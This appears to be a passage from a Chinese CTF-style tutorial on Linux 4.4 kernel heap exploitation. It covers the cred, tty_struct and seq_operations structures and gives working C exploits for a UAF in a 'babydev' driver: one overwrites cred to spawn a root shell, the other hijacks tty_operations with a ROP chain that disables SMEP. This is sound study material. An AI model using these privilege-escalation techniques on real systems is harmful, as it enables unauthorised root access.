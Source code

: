 环境是 linux 4.4.72，比较老的一个版本。

## 结构体总结

### cred

当创建一个新进程时，内核会为其申请一个 struct cred 结构体，用于存放进程信息。

cred 结构体内容如下：

```c
// 结构体大小 0xa8
struct cred {
	atomic_long_t              usage;                /*     0     8 */
	kuid_t                     uid;                  /*     8     4 */
	kgid_t                     gid;                  /*    12     4 */
	kuid_t                     suid;                 /*    16     4 */
	kgid_t                     sgid;                 /*    20     4 */
	kuid_t                     euid;                 /*    24     4 */
	kgid_t                     egid;                 /*    28     4 */
	kuid_t                     fsuid;                /*    32     4 */
	kgid_t                     fsgid;                /*    36     4 */
	unsigned int               securebits;           /*    40     4 */
	
	/* XXX 4 bytes hole, try to pack */
	
	kernel_cap_t               cap_inheritable;      /*    48     8 */
	kernel_cap_t               cap_permitted;        /*    56     8 */
	/* --- cacheline 1 boundary (64 bytes) --- */
	kernel_cap_t               cap_effective;        /*    64     8 */
	kernel_cap_t               cap_bset;             /*    72     8 */
	kernel_cap_t               cap_ambient;          /*    80     8 */
	unsigned char              jit_keyring;          /*    88     1 */
	
	/* XXX 7 bytes hole, try to pack */
	
	struct key *               session_keyring;      /*    96     8 */
	struct key *               process_keyring;      /*   104     8 */
	struct key *               thread_keyring;       /*   112     8 */
	struct key *               request_key_auth;     /*   120     8 */
	/* --- cacheline 2 boundary (128 bytes) --- */
	void *                     security;             /*   128     8 */
	struct user_struct *       user;                 /*   136     8 */
	struct user_namespace *    user_ns;              /*   144     8 */
	struct ucounts *           ucounts;              /*   152     8 */
	struct group_info *        group_info;           /*   160     8 */
	union {
		int                non_rcu;              /*   168     4 */
		struct callback_head rcu;                /*   168    16 */
	};                                               /*   168    16 */

/* size: 184, cachelines: 3, members: 26 */
/* sum members: 173, holes: 2, sum holes: 11 */
/* last cacheline: 56 bytes */
};
```

最常见的打法就是把这个结构体的 uid / gid / suid / sgid 等全部改成 0，使得该子进程拥有root权限。

不过这个结构体在内核 4.5 之后，会使用单独的 叫做 `cred_jar` 的 kmem-cache 来独立分配，普通的 UAF 无法拿到这个结构体，也就没办法打了。


举个例子，在 `_do_fork` 上下断点，`fork` 函数会调用 `prepare_creds` 为子进程创建 cred 结构体，而 `prepare_creds` 会调用 `kmem_cache_alloc`：

![fork调用栈](https://pic1.imgdb.cn/item/68ecc757c5157e1a886c8f20.png)

然后 `p (struct kmem_cache)*0xffff880002c01800` 可以观察到这个函数是从 `kmalloc-192` 取 obj 的。

poc 如下：

```c
#include <kernel.h>

int main() {
    int fd1 = open("/dev/babydev", 2);
    int fd2 = open("/dev/babydev", 2);
    ioctl(fd1, 0x10001, 0xa8);
    close(fd1);  // uaf
    pid_t pid = fork();
    if (pid < 0) {
        error("fork failed, pid = %d", pid);
    } else if (pid == 0) {
        info("child pid => %d", getpid());
        char zero[30] = {0};
        write(fd2, zero, 28);
        if (getuid() == 0) {
            success("getshell");
            system("/bin/sh");
        }
    } else {
        wait(NULL);
    }
    close(fd2);
    return 0;
}
```


### tty_struct


当用户态执行 `open("dev/ptmx",2);` 或者 `open("/dev/ptmx", O_RDWR | O_NOCTTY)` 后，内核中的处理过程如下图所示：

![tty_struct 分配流程](https://pic1.imgdb.cn/item/68ecca5fc5157e1a886c9eca.png)

其中，`alloc_tty_struct` 会从 `kmalloc-1024` 里取 obj 以满足 `tty_struct` 的 0x2e0 的内存需求。

`open` 操作后，用户态获得一个文件描述符 `fd`。用户态可对该 `fd` 进行 `tty_operations` 中包含的所有操作，如 `write`\`ioctl` 等。

如果利用漏洞改掉 `tty_struct` 中 `ops` 指向的函数表，就能实现控制流劫持。

如何确定申请到的 `tty_struct` 的位置呢？可以通过 `cat /proc/kallsyms | grep "ptm_unix98_lookup"` 找到 `ptm_unix98_lookup` 的位置，然后 `search -8` 找到 rwx 段上的地址，就能定位到 `ptm_unix98_ops`，然后再根据 `ptm_unix98_ops` 定位即可，那个地址就是 `tty_operations` 字段。

另外，0x5401 是 `tty_struct` 的魔数。


调试时，比如说 hook 的是 `pty_write` 函数，这个函数会调用 `n_tty_write`，在 n_tty_write+892 处下断点即可断在调用 hook 的函数前。

还有一种方法是使用硬件访问断点 `rwatch`，比如 `rwatch *A`，A 是 `pty_write` 函数地址。

```c
#include <kernel.h>


#define mov_rsp_rax 0xffffffff818855cf
#define pop_rsp_ret 0xffffffff8101ebc5
#define pop_rax_ret 0xffffffff8101c216
#define mov_cr4_rax_pop_ret 0xffffffff8100f034
#define swapgs_ret 0xffffffff81885588
#define iretq 0xffffffff81884177


int main() {
    save_status();

    unsigned long rop_chain[30] = {0};
    int index = 0;
    rop_chain[index++] = pop_rax_ret;
    rop_chain[index++] = 0x6f0;
    rop_chain[index++] = mov_cr4_rax_pop_ret;
    rop_chain[index++] = 0;
    rop_chain[index++] = (unsigned long)get_root;
    rop_chain[index++] = swapgs_ret;
    rop_chain[index++] = iretq;
    rop_chain[index++] = (unsigned long)get_root_shell;
    rop_chain[index++] = user_cs;
    rop_chain[index++] = user_rflags;
    rop_chain[index++] = user_sp;
    rop_chain[index++] = user_ss;


    int fd1 = open("/dev/babydev", 2);
    int fd2 = open("/dev/babydev", 2);
    ioctl(fd1, 0x10001, 0x2e0);
    close(fd1);  // uaf


    int fd_tty = open("/dev/ptmx", O_RDWR | O_NOCTTY);
    if (fd_tty < 0) {
        error("open ptmx failed: %d", fd_tty);
    }
    success("fd_tty => %d\n", fd_tty);

    unsigned long *mem[4];
    unsigned long fake_ops[30] = {0, 1, 2, 3, 4, 5, 6, 7};
    read(fd2, mem, 32);
    for (int i = 0; i < 4; ++i)
        info("0x%llx", mem[i]);
    // 修改 ops 为 fake_ops
    mem[3] = fake_ops;
    fake_ops[0] = pop_rsp_ret;  // 继续迁移到 rop_chain 上
    fake_ops[1] = (unsigned long)rop_chain;
    fake_ops[7] = mov_rsp_rax;  // pty_write，注意到 rax 为 fake_ops 地址，可以用来栈迁移

    write(fd2, mem, 0x38);

    char a[32];
    write(fd_tty, a, 32);  // 触发

    close(fd_tty);
    close(fd2);
    return 0;
}
```

### seq_operations

在用户态执行 `open("/proc/self/stat",0);` 后，内核中的调用过程如下图所示：

![seq](https://pic1.imgdb.cn/item/68ed244fc5157e1a886d07b5.png)

内核中会调用 `single_open()` 函数，而该函数中会为 `struct seq_operations` 结构体申请一段内存空间（0x20 字节大小，对应 `kmalloc-32`）。

返回的结构体里有四个字段：

```c
struct seq_operations {
	void *                     (*start)(struct seq_file *, loff_t *); /*     0     8 */
	void                       (*stop)(struct seq_file *, void *); /*     8     8 */
	void *                     (*next)(struct seq_file *, void *, loff_t *); /*    16     8 */
	int                        (*show)(struct seq_file *, void *); /*    24     8 */

/* size: 32, cachelines: 1, members: 4 */
/* last cacheline: 32 bytes */
};
```


其中 `start` 和 `stop` 都是可以被劫持的，当用户态对该 `fd` 进行读操作 `read(fd,buf,size)` 时，在内核中会调用 `seq_operations->start` 函数指针；随后也会调用 `seq_operations->stop` 函数指针` 


